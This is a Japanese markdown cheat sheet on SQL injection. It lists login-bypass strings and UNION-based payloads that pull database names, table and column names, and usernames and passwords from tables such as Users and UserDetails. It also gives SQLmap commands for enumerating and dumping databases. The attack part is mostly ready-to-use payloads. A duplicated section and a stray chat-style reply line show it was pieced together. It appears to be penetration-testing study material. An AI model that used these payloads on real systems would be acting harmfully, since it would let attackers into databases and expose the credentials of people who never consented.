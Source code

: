 
# 目次
1. [Basic](#basic)
   1. [有効性のチェック](#有効性のチェック)
   2. [テーブル数を特定する](#テーブル数を特定する)
2. [Union Based SQLインジェクション](#union-based-sqlインジェクション)
3. [SQLmapの使用例](#sqlmapの使用例)

---

# Basic

## 有効性のチェック
- `' or '1'='1';--`を入力し、通常の入力時と挙動の違いがあるかを**BurpSuite**などのツールを使って確認します。

## テーブル数を特定する
- `' union select null;--`を入力し、カラム数に関するエラーが出た場合は、以下のように徐々にカラム数を増やして特定します。
  
```bash
' union select null, null, null, null, null;--
```

- 以下のコマンドで、カラム数の順序を特定できます。
```bash
' or 1=1 order by 10 #
```

### 例として使用可能なSQLインジェクション入力
- `admin' or '1'='1`
- `'or '1'='1 --`
- `"or "1"="1`
- `"or "1"="1" --`
- `") or "1"="1 --`
- `"or 1=1 --`
---

# Union Based SQLインジェクション

**Union Based SQL Injection**とは、`union`を使って行を挿入し、内部情報を抽出する手法です。

## テーブル数を特定する
- `' union select null;--`を入力し、カラム数に関するエラーが出た場合は、以下のように徐々にカラム数を増やして特定します。
  
```bash
' union select null, null, null, null, null;--
```

- 以下のコマンドで、カラム数の順序を特定できます。
```bash
' or 1=1 order by 10 #
```

## Unionの具体例と説明

1. **現在のユーザー、データベース、バージョン情報の取得**
   ```bash
   ' or 1=1 union select 1,2,3,user(),database(),version();#
   ```
   - 目的: データベースサーバーにログインしているユーザー名、現在使用しているデータベース名、およびサーバーのバージョン情報を取得します。

2. **データベースの一覧を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata;#
   ```
   - 目的: データベースサーバーに存在するすべてのデータベース名を取得します。`information_schema.schemata`は、データベース名を保持するテーブルです。

3. **特定のテーブルのカラム名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='Users';#
   ```
   - 目的: `Users`という名前のテーブルに含まれるカラム（列）の名前を取得します。`information_schema.columns`は、すべてのテーブルのカラム情報を保持するテーブルです。

4. **特定のテーブルからユーザーID、ユーザー名、パスワードを抽出**
   ```bash
   ' or 1=1 union select 1,2,group_concat(UserID),group_concat(Username),group_concat(Password),6 from Users;#
   ```
   - 目的: `Users`テーブルからユーザーID、ユーザー名、およびパスワード情報をまとめて取得します。複数のデータを`group_concat`関数で連結しています。

5. **特定のデータベースのテーブル名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema='users';#
   ```
   - 目的: `users`データベースに含まれるすべてのテーブル名を取得します。`information_schema.tables`は、すべてのデータベース内のテーブル情報を保持するテーブルです。

6. **特定のテーブルのカラム名を取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='UserDetails';#
   ```
   - 目的: `UserDetails`という名前のテーブルに含まれるカラム（列）の名前を取得します。この例では、`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`といったカラムが含まれます。

7. **ユーザー名とパスワードの取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(username),group_concat(password),6 from users.UserDetails;#
   ```
   - 目的: `UserDetails`テーブルからすべてのユーザー名とパスワードを取得します。`group_concat`関数を使用して、複数のユーザー情報をまとめて抽出しています。

---

これで、各行の目的や意味がより明確になりました。内容に不明な点があればお知らせください。

# SQLmapの使用例

**SQLmap**は、SQLインジェクションの検出や悪用に特化したツールです。以下はその基本的な使用例です。

1. **目標のURLを特定する**  
   SQLmapで検査対象のウェブサイトやアプリケーションのURLを指定します。
   
2. **検査の開始**  
   SQLmapで対象のURLに対してSQLインジェクション攻撃を実行します。
   
   ```bash
   sqlmap -u <target_URL>
   ```
   例: `sqlmap -u http://example.com/page.php?id=1`

3. **自動検出**  
   SQLmapは自動で脆弱性を検出します。検出結果は詳細に表示されます。

4. **脆弱性の調査と悪用**  
   SQLmapでデータベースの情報を抽出したり、脆弱性を利用して攻撃を実行できます。

   - データベースの名前を取得:
     ```bash
     sqlmap -u <target_URL> --dbs
     ```

   - テーブルを列挙:
     ```bash
     sqlmap -u <target_URL> -D <database_name> --tables
     ```

   - テーブルのデータを取得:
     ```bash
     sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump
     ```

---

# 参考リンク
- [SQLmapの公式ドキュメント](https://shukapin.com/security/sqlmap)
- [HackTricks SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

---

# SQLmapのオプション

| オプション  | 説明                           | 例                              |
|-------------|--------------------------------|---------------------------------|
| `-u`        | URL指定                        | `sqlmap -u http://10.10.10.1/`  |
| `--batch`   | インタラクティブモードを無効化  | `sqlmap -u URL --batch`         |
| `--dbs`     | 利用可能なデータベース名の取得  | `sqlmap -u URL --dbs`           |
| `--all`     | すべての情報を取得              | `sqlmap -u URL --all`           |

---
